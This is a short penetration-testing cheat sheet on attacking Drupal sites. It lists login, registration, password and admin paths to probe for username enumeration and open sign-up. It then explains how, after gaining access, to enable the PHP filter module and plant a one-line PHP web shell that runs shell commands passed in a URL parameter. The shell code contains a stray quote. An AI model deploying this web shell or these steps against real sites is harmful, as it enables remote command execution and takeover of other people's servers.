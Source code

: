 # Drupal
Various issues such as exploits and auto registration and username enumeration.

```
/user/login
/user/register
/user/password
/q?=admin/views/ajax/autocomplete/user/e
/admin/by-module
```

If access is obtained, turn on php filter module from `Module`
and use the php code below:
```
<?php
$output=shell_exec($_GET['CMD']);
echo "<pre>$output</pre>"'
?>
```

You can also enable **Code Filter** module and adding a content (article).  Then inside the article you can add php code.
